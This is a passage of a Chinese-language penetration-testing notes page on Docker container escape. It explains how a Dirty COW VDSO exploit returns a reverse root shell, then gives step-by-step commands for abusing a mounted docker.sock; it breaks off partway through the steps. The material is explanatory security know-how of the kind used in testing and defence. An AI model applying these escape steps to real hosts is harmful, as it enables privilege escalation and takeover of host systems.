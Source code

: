 **[Dirty COW(CVE-2016-5195)](../OS安全/OS-Exploits.md#linux)**

- 概述

    通过 Dirty Cow 漏洞，结合 EXP，就可以返回一个宿主机的高权限 Shell，并拿到宿主机的 root 权限，可以直接操作宿主机的文件。

    VDSO(virtual dvnamic shared object) : 这是一个小型共享库，能将内核自动映射到所有用户程序的地址空间。
    - 举个例子：gettimeofday 是一个获取当前时间的函数，它经常被用户的程序调用，如果一个程序需要知道当前的时间，程序就会频繁的轮询。为了减少资源开销，内核需要把它放在一个所有进程都能访问的内存位置，然后通过 VDSO 定义一个功能来共享这个对象，让进程来访问此信息。通过这种方式，调用的时间和资源花销就大大的降低了，速度也就变得更快。
    - 那么如何利用 VDSO 来实现 Docker 逃逸的？首先 POC 利用 Dirty Cow 漏洞，将 Payload 写到 VDSO 中的一些闲置内存中，并改变函数的执行顺序，使得在执行正常函数之前调用这个 Shellcode。Shellcode 初始化时会检测是否被 root 所调用，如果调用，则继续执行，如果没有调用则返回，并执行 clock_gettime 函数，接下来它会检测 `/tmp/.X` 文件的存在，如果存在，则这时已经是 root 权限了，然后它会打开一个反向的 TCP 链接，为 Shellcode 中填写的 ip 返回一个 Shell,漏洞就这样产生了。

- https://www.ichunqiu.com/experiment/detail?id=100297&source=2

**[CVE-2018-18955](./OS安全/OS-Exploits.md#linux)**

---

### 由配置不当引起

**前提**
- root 权限启动 docker
- 主机上有镜像,或自己下载镜像
- API 版本大于 1.5

**docker.sock 挂载到容器内部**

- 概述

    Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon 扮演，二者之间通信方式有以下3种：
    1. unix:///var/run/docker.sock
    2. tcp://host:port
    3. fd://socketfd

    其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载 `/var/run/docker.sock` 文件。

    本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。

    因此，当容器访问 docker socket 时，我们可通过与 docker daemonv 的通信对其进行恶意操纵完成逃逸。若容器A可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

1. 首先运行一个挂载 `/var/run/` 的容器
    ```bash
    docker pull ubuntu:18.04
    docker run -it -v /var/run/:/host/var/run/ ubuntu:18.04 /bin/bash
    ```

2. 寻找下挂载的 sock 文件
    ```bash
    find / -name docker.sock
    ```

3. 在容器内安装 Docker 作为 client
    ```bash
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" > /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
